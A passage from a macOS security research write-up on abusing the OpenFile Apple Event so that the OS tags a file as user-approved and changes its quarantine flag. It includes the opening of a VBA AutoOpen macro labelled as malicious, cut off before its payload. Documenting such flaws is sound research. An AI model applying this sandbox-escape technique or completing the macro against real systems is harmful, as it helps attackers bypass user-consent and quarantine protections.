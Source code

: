

**Returning to the app sandbox topic, we need to find another way to modify the quarantine flag.**



#### **2.9.3 Route 3 : Abuse OpenFile Apple Event**

- `User-Selected` is a crucial feature
- macOS should ensure that malicious applications cannot emulate click events or trigger the permission-granting mechanism without user interaction

But if we execute `open -a {AppID} ./hello.txt` , the operation will make the specified app open hello.txt. Subsequent operations on the input file will be treated as user-approved and will tag the file with the 0082 quarantine flag instead of 0086.

<img src="/images/2024-08-24-Unveiling-Mac-Security-A-Comprehensive-Exploration-of-TCC-Sandboxing-and-App-Data-TCC/WX20240819-151018.png" style="zoom:50%; display: block; margin: 0 auto;" />

**We can execute the command ourselves and set the responder to be our own process, allowing us to open the specified file without any user interaction. In this case, although the operation clearly lacks user permission or interaction, the OS mistakenly treats it as if it were user-authorized.**



We only need to execute `open -a Microsoft Word ./executablefile` and then inject the payload to the executable file, this operation changes the executable file's quarantine flag directly.

>  Malicious macro.docm : 

```shell
Function GetDocumentPath() As String
    Dim docPath As String
    docPath = ActiveDocument.Path
    If docPath = "" Then
        GetDocumentPath = ""
    Else
        GetDocumentPath = docPath
    End If
End Function

Sub AutoOpen()
    Dim scriptCode As String
    Dim docPath As String
    Dim docName As String
    Dim fullPath As String
    
    Dim step1 As String
    Dim step2 As String
    Dim step3 As String
    Dim step4 As String

    docPath = GetDocumentPath
    docName = ActiveDocument.Name
    fullPath = docPath & "/" & docName
```